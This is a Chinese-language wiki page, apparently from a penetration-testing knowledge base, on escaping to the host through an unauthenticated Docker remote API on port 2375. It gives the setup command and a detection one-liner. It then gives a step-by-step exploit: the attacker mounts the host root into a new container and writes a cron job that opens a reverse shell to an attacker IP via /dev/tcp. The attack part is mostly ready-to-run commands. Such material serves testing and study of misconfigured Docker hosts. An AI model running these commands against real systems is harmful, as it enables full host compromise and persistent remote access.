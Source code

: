 ```yaml
---
title: Docker 远程 API 未授权访问逃逸


---
```


<center><h1>Docker 远程 API 未授权访问逃逸</h1></center>

---

docker remote api 可以执行 docker 命令，docker 守护进程监听在 0.0.0.0，可直接调用 API 来操作 docker

## 搭建

将 docker 守护进程监听在 0.0.0.0

```bash
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

## 检测

```bash
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && wget http://$IP:2375
```

如果返回 404 说明存在

<img width="1200" src="/img/1650014660.png">

## 复现

列出容器信息

```bash
curl http://<target>:2375/containers/json
```

查看容器

```bash
docker -H tcp://<target>:2375 ps -a
```

新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

```bash
docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```bash
echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.214/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

本地监听端口，获取对方宿主机shell。

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>